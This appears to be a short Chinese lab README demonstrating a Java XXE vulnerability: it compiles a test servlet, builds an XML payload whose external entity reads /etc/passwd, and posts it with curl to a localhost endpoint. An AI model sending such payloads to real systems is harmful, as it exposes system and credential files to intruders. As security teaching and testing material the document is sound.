 # Java XXE（XML External Entity）漏洞 

- 编译 XXEServlet.java：`javac -cp <Tomcat文件目录>/lib/servlet-api.jar XXEServlet.java`
- 创建一个 xxe_payload.xml 文件：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```
- 发送 POST 请求：`curl -X POST -d @xxe_payload.xml -H "Content-Type: application/xml" http://localhost:8080/exploitXXE_war_exploded/exploit`
